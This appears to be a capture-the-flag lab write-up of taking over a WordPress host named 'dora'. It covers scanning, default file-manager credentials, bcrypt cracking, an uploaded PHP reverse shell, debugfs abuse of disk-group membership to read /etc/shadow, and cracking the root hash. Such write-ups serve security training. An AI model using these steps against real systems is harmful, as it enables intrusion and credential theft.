




Writeup by wook413
Enumeration
Nmap
Initial TCP scan result
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-09 01:44 UTCNmap scan report for 192.168.148.16Host is up (0.045s latency).Not shown: 65533 filtered tcp ports (no-response)Some closed ports may be reported as filtered due to --defeat-rst-ratelimitPORT STATE SERVICE22/tcp open ssh80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 43.85 secondsSecond TCP scan result
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sC -sV -p 22,80 Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-09 01:45 UTCNmap scan report for 192.168.148.16Host is up (0.045s latency).
PORT STATE SERVICE VERSION22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)| ssh-hostkey: | 3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)| 256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)|_ 256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)80/tcp open http Apache httpd 2.4.41 ((Ubuntu))|_http-server-header: Apache/2.4.41 (Ubuntu)Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .Nmap done: 1 IP address (1 host up) scanned in 105.89 secondsUDP scan result
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sU --top-ports 10Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-09 01:47 UTCNmap scan report for 192.168.148.16Host is up (0.045s latency).
PORT STATE SERVICE53/udp open|filtered domain67/udp open|filtered dhcps123/udp open|filtered ntp135/udp open|filtered msrpc137/udp open|filtered netbios-ns138/udp open|filtered netbios-dgm161/udp open|filtered snmp445/udp open|filtered microsoft-ds631/udp open|filtered ipp1434/udp open|filtered ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 1.77 secondsInitial Access
HTTP 80
Wordpress CMS is being used on port 80

wpscan returned some hits on vulnerable plugins/themes.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ wpscan --url <http://$IP> --enumerate p,t,u --plugins-detection aggressive_______________________________________________________________ __ _______ _____ \\ \\ / / __ \\ / ____| \\ \\ /\\ / /| |__) | (___ ___ __ _ _ __ ® \\ \\/ \\/ / | ___/ \\___ \\ / __|/ _` | '_ \\ \\ /\\ / | | ____) | (__| (_| | | | | \\/ \\/ |_| |_____/ \\___|\\__,_|_| |_|
WordPress Security Scanner by the WPScan Team Version 3.8.28 Sponsored by Automattic - <https://automattic.com/> @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart_______________________________________________________________
[+] URL: <http://192.168.148.16/> [192.168.148.16][+] Effective URL: <http://192.168.148.16/wp-admin/setup-config.php>[+] Started: Fri Jan 9 02:00:35 2026
Interesting Finding(s):
[+] Headers | Interesting Entry: Server: Apache/2.4.41 (Ubuntu) | Found By: Headers (Passive Detection) | Confidence: 100%
[+] WordPress readme found: <http://192.168.148.16/readme.html> | Found By: Direct Access (Aggressive Detection) | Confidence: 100%
[+] WordPress version 6.2 identified (Insecure, released on 2023-03-29). | Found By: Most Common Wp Includes Query Parameter In Homepage (Passive Detection) | - <http://192.168.148.16/wp-includes/css/dashicons.min.css?ver=6.2> | Confirmed By: | Common Wp Includes Query Parameter In Homepage (Passive Detection) | - <http://192.168.148.16/wp-includes/css/buttons.min.css?ver=6.2> | Style Etag (Aggressive Detection) | - <http://192.168.148.16/wp-admin/load-styles.php>, Match: '6.2'
[i] The main theme could not be detected.
[+] Enumerating Most Popular Plugins (via Aggressive Methods) Checking Known Locations - Time: 00:00:14 <========================================================> (1499 / 1499) 100.00% Time: 00:00:14[+] Checking Plugin Versions (via Passive and Aggressive Methods)
[i] Plugin(s) Identified:
[+] akismet | Location: <http://192.168.148.16/wp-content/plugins/akismet/> | Last Updated: 2025-11-12T16:31:00.000Z | Readme: <http://192.168.148.16/wp-content/plugins/akismet/readme.txt> | [!] The version is out of date, the latest version is 5.6 | | Found By: Known Locations (Aggressive Detection) | - <http://192.168.148.16/wp-content/plugins/akismet/>, status: 200 | | Version: 5.1 (100% confidence) | Found By: Readme - Stable Tag (Aggressive Detection) | - <http://192.168.148.16/wp-content/plugins/akismet/readme.txt> | Confirmed By: Readme - ChangeLog Section (Aggressive Detection) | - <http://192.168.148.16/wp-content/plugins/akismet/readme.txt>
[+] Enumerating Most Popular Themes (via Passive and Aggressive Methods) Checking Known Locations - Time: 00:00:04 <==========================================================> (400 / 400) 100.00% Time: 00:00:04[+] Checking Theme Versions (via Passive and Aggressive Methods)
[i] Theme(s) Identified:
[+] twentytwentyone | Location: <http://192.168.148.16/wp-content/themes/twentytwentyone/> | Last Updated: 2025-12-03T00:00:00.000Z | Readme: <http://192.168.148.16/wp-content/themes/twentytwentyone/readme.txt> | [!] The version is out of date, the latest version is 2.7 | Style URL: <http://192.168.148.16/wp-content/themes/twentytwentyone/style.css> | Style Name: Twenty Twenty-One | Style URI: <https://wordpress.org/themes/twentytwentyone/> | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi... | Author: the WordPress team | Author URI: <https://wordpress.org/> | | Found By: Known Locations (Aggressive Detection) | - <http://192.168.148.16/wp-content/themes/twentytwentyone/>, status: 500 | | Version: 1.8 (80% confidence) | Found By: Style (Passive Detection) | - <http://192.168.148.16/wp-content/themes/twentytwentyone/style.css>, Match: 'Version: 1.8'
[+] twentytwentythree | Location: <http://192.168.148.16/wp-content/themes/twentytwentythree/> | Last Updated: 2024-11-13T00:00:00.000Z | Readme: <http://192.168.148.16/wp-content/themes/twentytwentythree/readme.txt> | [!] The version is out of date, the latest version is 1.6 | [!] Directory listing is enabled | Style URL: <http://192.168.148.16/wp-content/themes/twentytwentythree/style.css> | Style Name: Twenty Twenty-Three | Style URI: <https://wordpress.org/themes/twentytwentythree> | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6.... | Author: the WordPress team | Author URI: <https://wordpress.org> | | Found By: Known Locations (Aggressive Detection) | - <http://192.168.148.16/wp-content/themes/twentytwentythree/>, status: 200 | | Version: 1.1 (80% confidence) | Found By: Style (Passive Detection) | - <http://192.168.148.16/wp-content/themes/twentytwentythree/style.css>, Match: 'Version: 1.1'
[+] twentytwentytwo | Location: <http://192.168.148.16/wp-content/themes/twentytwentytwo/> | Last Updated: 2025-12-03T00:00:00.000Z | Readme: <http://192.168.148.16/wp-content/themes/twentytwentytwo/readme.txt> | [!] The version is out of date, the latest version is 2.1 | Style URL: <http://192.168.148.16/wp-content/themes/twentytwentytwo/style.css> | Style Name: Twenty Twenty-Two | Style URI: <https://wordpress.org/themes/twentytwentytwo/> | Description: Built on a solidly designed foundation, Twenty Twenty-Two embraces the idea that everyone deserves a... | Author: the WordPress team | Author URI: <https://wordpress.org/> | | Found By: Known Locations (Aggressive Detection) | - <http://192.168.148.16/wp-content/themes/twentytwentytwo/>, status: 200 | | Version: 1.4 (80% confidence) | Found By: Style (Passive Detection) | - <http://192.168.148.16/wp-content/themes/twentytwentytwo/style.css>, Match: 'Version: 1.4'
[+] Enumerating Users (via Passive and Aggressive Methods) Brute Forcing Author IDs - Time: 00:01:00 <============================================================> (10 / 10) 100.00% Time: 00:01:00
[i] No Users Found.
[!] No WPScan API Token given, as a result vulnerability data has not been output.[!] You can get a free API token with 25 daily requests by registering at <https://wpscan.com/register>
[+] Finished: Fri Jan 9 02:01:59 2026[+] Requests Done: 1930[+] Cached Requests: 58[+] Data Sent: 435.416 KB[+] Data Received: 439.942 KB[+] Memory used: 309.301 MB[+] Elapsed time: 00:01:23I looked up every plugin and theme but couldn’t find any known vulnerabilities associated with those. So I ran a gobuster scan and found /filemanager
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ gobuster dir -u <http://$IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,asp,xml,html,js,sql,gz,zip --exclude-length 279===============================================================Gobuster v3.6by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)===============================================================[+] Url: <http://192.168.148.16>[+] Method: GET[+] Threads: 10[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt[+] Negative Status codes: 404[+] Exclude Length: 279[+] User Agent: gobuster/3.6[+] Extensions: html,js,sql,gz,zip,php,asp,xml[+] Timeout: 10s===============================================================Starting gobuster in directory enumeration mode===============================================================/filemanager (Status: 301) [Size: 322] [--> <http://192.168.148.16/filemanager/>]/index.php (Status: 302) [Size: 0] [--> <http://192.168.148.16/wp-admin/setup-config.php>]/index.php (Status: 302) [Size: 0] [--> <http://192.168.148.16/wp-admin/setup-config.php>]I was able to login with the default credentials admin:admin .


Inside /filemanager/config/.htusers.php , I found credentials for two accounts: admin and dora . The passwords for these users appear to be hashed using different algorithms. I am almost certain the admin hash is MD5. Also its password should be admin because I’m currently logged in as admin haha.

Crackstation confirmed.

hashcat is telling me Dora’s hash algorithm is bcrypt . Let’s crack it.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ echo '$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS' > hash.txt ┌──(kali㉿kali)-[~/Desktop]└─$ hashcat hash.txt hashcat (v6.2.6) starting in autodetect mode
OpenCL API (OpenCL 3.0 PoCL 6.0+debian Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]====================================================================================================================================================* Device #1: cpu-sandybridge-Intel(R) Core(TM) Ultra 9 288V, 2913/5890 MB (1024 MB allocatable), 4MCU
The following 4 hash-modes match the structure of your input hash:
# | Name | Category ======+============================================================+====================================== 3200 | bcrypt $2*$, Blowfish (Unix) | Operating System 25600 | bcrypt(md5($pass)) / bcryptmd5 | Forums, CMS, E-Commerce 25800 | bcrypt(sha1($pass)) / bcryptsha1 | Forums, CMS, E-Commerce 28400 | bcrypt(sha512($pass)) / bcryptsha512 | Forums, CMS, E-CommerceHashcat successfully cracked the hash
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS:doraemonI thought I would be able to login to SSH using dora’s credentials but it returned Permission denied
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ ssh dora@$IPdora@192.168.148.16: Permission denied (publickey).Alternatively, I simply uploaded php-reverse-shell.php file inside /filemanager/config . Then I navigated to the path on the browser.

The payload was triggered and it connected to my nc listener. I got the shell as www-data
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nc -lvnp 80 listening on [any] 80 ...connect to [192.168.45.236] from (UNKNOWN) [192.168.148.16] 38262Linux dora 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux 03:13:00 up 1:35, 0 users, load average: 0.00, 0.00, 0.00USER TTY FROM LOGIN@ IDLE JCPU PCPU WHATuid=33(www-data) gid=33(www-data) groups=33(www-data)/bin/sh: 0: can't access tty; job control turned off$ whoamiwww-data$ iduid=33(www-data) gid=33(www-data) groups=33(www-data)I stopped the listener and reconnected using penelope . Penelope is probably my favorite program right now. It automatically stabilizes and upgrades your TTY so you don’t have to go through all of the commands trying to stabilize your shell only to have it drop after a stupid typo. You can press Ctrl + C anytime and it still won’t kill your session.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ python3 penelope.py -p 80 [+] Listening for reverse shells on 0.0.0.0:80 → 127.0.0.1 • 192.168.136.128 • 172.20.0.1 • 172.17.0.1 • 192.168.45.236➤ 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)[+] Got reverse shell from dora~192.168.148.16-Linux-x86_64 😍 Assigned SessionID <1>[+] Attempting to upgrade shell to PTY...[+] Shell upgraded successfully using /usr/bin/python3! 💪[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 [+] Logging to /home/kali/.penelope/sessions/dora~192.168.148.16-Linux-x86_64/2026_01_09-03_15_18-045.log 📜──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────www-data@dora:/$ whoamiwww-datawww-data@dora:/$ Shell as dora
/etc/passwd shows the user does exist.
xxxxxxxxxxwww-data@dora:/home/dora$ cat /etc/passwdroot:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologin......dora:x:1000:1000::/home/dora:/bin/shSince I already had dora's password, I tried switching to that user and successfully logged in.
xxxxxxxxxxwww-data@dora:/home/dora$ su doraPassword: $ whoamidoraFound local.txt
xxxxxxxxxx$ pwd /home/dora$ ls local.txt$ cat local.txtbc0...Privilege Escalation
Dora is a member of disk group.
xxxxxxxxxx$ iduid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)df -h to check disk space summary.
xxxxxxxxxx$ df -hFilesystem Size Used Avail Use% Mounted on/dev/mapper/ubuntu--vg-ubuntu--lv 9.8G 5.1G 4.2G 55% /udev 947M 0 947M 0% /devtmpfs 992M 0 992M 0% /dev/shmtmpfs 199M 1.2M 198M 1% /runtmpfs 5.0M 0 5.0M 0% /run/locktmpfs 992M 0 992M 0% /sys/fs/cgroup/dev/loop0 62M 62M 0 100% /snap/core20/1611/dev/loop1 64M 64M 0 100% /snap/core20/1852/dev/sda2 1.7G 209M 1.4G 13% /boot/dev/loop2 68M 68M 0 100% /snap/lxd/22753/dev/loop3 50M 50M 0 100% /snap/snapd/18596/dev/loop4 92M 92M 0 100% /snap/lxd/24061tmpfs 199M 0 199M 0% /run/user/1000We can examine and modify the disk using the debugfs utility in Linux.
xxxxxxxxxx$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lvdebugfs 1.45.5 (07-Jan-2020)debugfs: Got access to the contents of /etc/shadow
xxxxxxxxxxdebugfs: cat /etc/shadowroot:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::daemon:*:19235:0:99999:7:::bin:*:19235:0:99999:7:::sys:*:19235:0:99999:7:::sync:*:19235:0:99999:7:::games:*:19235:0:99999:7:::......dora:$6$PkzB/mtNayFM5eVp$b6LU19HBQaOqbTehc6/LEk8DC2NegpqftuDDAvOK20c6yf3dFo0esC0vOoNWHqvzF0aEb3jxk39sQ/S4vGoGm/:19453:0:99999:7:::I found proof.txt
xxxxxxxxxxdebugfs: cat proof.txt5af...Even though I found both local.txt and proof.txt. I like to challenge myself further and obtain the root shell.
I downloaded both /etc/shadow and /etc/passwd to combine them first with unshadow and finally crack the hash with john but failed.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ echo "root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::" > shadow.txt
┌──(kali㉿kali)-[~/Desktop]└─$ unshadow passwd.txt shadow.txt > unshadow.txt ┌──(kali㉿kali)-[~/Desktop]└─$ cat unshadow.txt| head -n 1root:mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:0:0:root:/root:/bin/bash┌──(kali㉿kali)-[~/Desktop]└─$ john unshadow.txt --wordlist=/usr/share/wordlists/rockyou.txtUsing default input encoding: UTF-8Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 AVX 4x])Will run 4 OpenMP threadsPress 'q' or Ctrl-C to abort, almost any other key for status0g 0:00:00:01 DONE (2026-01-09 04:05) 0g/s 8487Kp/s 8487Kc/s 8487KC/s !SkicA!..*7¡Vamos!Session completed.Then I simply saved the hash separately into a file roothash.txt and john cracked the hash.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ echo '$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.' > roothash.txt ┌──(kali㉿kali)-[~/Desktop]└─$ john roothash.txt --wordlist=/usr/share/wordlists/rockyou.txt Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"Use the "--format=HMAC-SHA256" option to force loading these as that type insteadUsing default input encoding: UTF-8Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])Cost 1 (iteration count) is 5000 for all loaded hashesWill run 4 OpenMP threadsPress 'q' or Ctrl-C to abort, almost any other key for statusexplorer (?) 1g 0:00:00:00 DONE (2026-01-09 04:43) 1.492g/s 4967p/s 4967c/s 4967C/s adriano..cartmanUse the "--show" option to display all of the cracked passwords reliablySession completed.Got the shell as root !
xxxxxxxxxx$ su rootPassword: root@dora:/# whoamirootroot@dora:/# iduid=0(root) gid=0(root) groups=0(root)